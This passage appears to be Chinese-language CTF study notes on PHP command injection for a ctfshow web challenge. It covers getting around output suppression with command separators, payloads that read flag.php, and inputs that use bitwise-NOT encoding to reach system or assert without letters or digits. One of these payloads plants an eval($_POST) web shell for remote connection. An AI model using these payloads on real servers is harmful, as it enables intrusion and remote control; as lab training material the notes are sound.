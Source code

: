 二，>/dev/null 2>&1类无回显

例题：ctfshow-web入门42

```bash
 <?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
} 
1234567
```

`>/dev/null 2>&1主要意思是不进行回显的意思`
进行命令分隔即可

```bash
;	//分号
|	//只执行后面那条命令
||	//只执行前面那条命令
&	//两条命令都会执行
&&	//两条命令都会执行
12345
```

payload:

```bash
 cat flag.php||
 cat flag.php;
12
```





##### 0x07 Perl中open命令执行（GET）

https://blog.csdn.net/qq_44657899/article/details/107720578

##### 0x08 无数字字母getshell

思路：取反 ~，异或 ^，或运算 |

羽大佬的总结：[无字母数字绕过正则表达式总结（含上传临时文件、异或、或、取反、自增脚本）](https://blog.csdn.net/miuzzx/article/details/109143413)

一、取反：~

```bash
$_=~(%A0%B8%BA%AB);${$_}[__](${$_}[___]);&__=system&___=cat flag.php
$_=~%A0%B8%BA%AB;${$_}[_](${$_}[__]);&_=system&__=dir
$_=~(%A0%B8%BA%AB);${$_}[__](${$_}[___]);&__=assert&___=eval($_POST['a']);//蚁剑连接
123
```

用php生成;
